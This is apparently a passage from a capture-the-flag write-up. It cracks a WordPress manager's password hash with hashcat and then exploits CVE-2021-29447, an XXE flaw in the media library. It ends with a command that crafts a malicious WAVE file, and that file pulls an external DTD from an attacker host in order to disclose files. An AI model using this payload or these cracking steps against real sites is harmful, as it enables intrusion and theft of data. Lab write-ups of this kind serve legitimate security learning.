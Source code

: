 
## **Crack hash with Hashcat**

Unfortunatly the admin hash seems too strong to be cracked using
rockyou (It  takes too long ) but we can crack manager's hash :

```
hashcat -m 400 managerhash /usr/share/wordlists/rockyou.txt
```

Within a minute hashcat crack the hash :

```
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:party**********
```

From there I directly try these creds for ftp but without success. So what can we do ?
Remember that there is a login page in the website so let's give a try.

## **Exploit Upload plugin**

After successfully logged in we are redirected to the profile page :

![image text](/login_success.png)

I have noticed an upload page called media library, the first thing
I tried is to upload a simple php reverse shell but some filter is
blocking us from upload malicious file.

Well after looking for vulnerabilities I found out that there is **[CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29447)**
that involve an XML eXternal Entity vulnerability. This vulnerability let us
upload a `malicious WAVE file` that could lead to remote arbitrary file disclosure.

By following the steps on shown on **[wpsec.com](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)** I created two files :
```
payload.wav :

echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://IP:6666/xxe.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```
